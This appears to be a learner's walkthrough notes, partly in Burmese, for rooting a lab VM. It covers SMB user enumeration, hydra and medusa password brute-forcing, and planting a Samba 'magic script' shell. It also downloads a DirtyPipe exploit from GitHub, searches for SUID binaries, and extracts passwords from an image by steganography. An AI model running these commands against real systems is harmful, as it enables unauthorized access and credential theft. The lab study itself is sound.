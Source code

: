 
nmap -sn 192.168.99.1/24 

nmap 192.168.99.28 

nmap -sC -sV 192.168.99.28

smbmap -H 192.168.99.28   => enumanate  => we got nothing

enum4linux 192.168.99.28   =>  we got username

![[Pasted image 20230114225608.png]]

nmap 192.168.99.28 --script=smb-enum-users -sV   => best one  => we got user too


![[Pasted image 20230114225639.png]]

-----

we try to get smb password with hydra tool

** hydra -l albert -P /usr/share/wordlists/rockyou.txt 192.168.99.28 smb -t 1

-t option for time => 1 request per time


** medusa -h 192.168.99.28 -u albert -P /usr/share/wordlists/rockyou.txt -M smbnt  => nice dal

Finally we get user name and paswrd 
username -> albert 
password -> bradley1

smbmap -H 192.168.99.28 -u albert -p 'bradley1'    => we are entering again

smbclient //192.168.99.28/albert -U albert    => we are going to albert folder

smbconf twe mar a ye kyi sone ka * magic script file bal* => cuzz auto run mot

![[Pasted image 20230115152519.png]]


subl smbscript.txt    => we create this file * file name must be same with magic script file*

=> smbshare folder htal ko win twar dal
smbclient //192.168.99.28/smbshare -U albert

![[Pasted image 20230115155526.png]]

rename smbscript.txt smbscript.sh  => we change txt file to sh file

 ######### we got user 

----

Rooting Time!!!!

mv smbscript.txt smbscript.sh     => Firstly we change txt file to sh file for exploit 


smbclient //192.168.99.28/smbshare -U albert      => go again to smb

put smbscript.sh     => shell file ko tin lite dar

We check kernel version and release date 

![[Pasted image 20230117215322.png]]

we are going to dirty pipe and take it directory for download

wget https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits/blob/main/exploit-1.c

we found  exploit-1.c 

we run with gcc command
gcc exploit-1.c -o exploit

but we can't do nothing  **

======> we think another way

export TERM=linux    => we are using this command to use like a linux terminal

==> now we are going with SUID 

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null   => ko root script

![[Pasted image 20230117220520.png]]

Something was wrong on upper image 

beroot ka binary file => we can run with ./

strings beroot    => we can also check with string command => in this case nothing was happen

cp beroot smbshare   => we are copy this file to smbshare cuzz we don't believe it

cp crossroads.png smbshare    => we copy this file too 

cd smbshare => go now and check it 

smbclient //192.168.99.28/smbshare -U albert   => go to smbshell file

get beroot => download

get crossroads.png => download

strings beroot  => binary file ko show dar  => in this cause we got nothing 

==> playint to beroot binary file

sudo -s

echo "" > /root/beroot.sh

./beroot  => in this cause we got nothing 

===> OK fine -> now we are going to server and try again

echo passwd
echo password | ./beroot    -> result = permission denided   

===> we also investigate image file 

binwalk crossroads.png   -> we saw zip file 
binwalk -e crossroads.png   => binwalk is just tool -> -e is extract 


---------> We try to us  stegoveritas 

stegoveritas crossroads.png 

we find result folder

and then we got password file 

we take both of this to our pj folder

and then go to the smbshare folder =>  smbclient //192.168.99.28/smbshare -U albert

put password.txt
put run.sh    -> that is we create for brute force with bash

![[Pasted image 20230119212345.png]]

but we cant run this script in smbshare folder -> cuz beroot env is not locate at smbsharefolder -> so we go to the user folder path

and then use ./run.sh

we found root crendital 

we got root ###### 



![[Pasted image 20230119212735.png]]


---







 


 









 

  

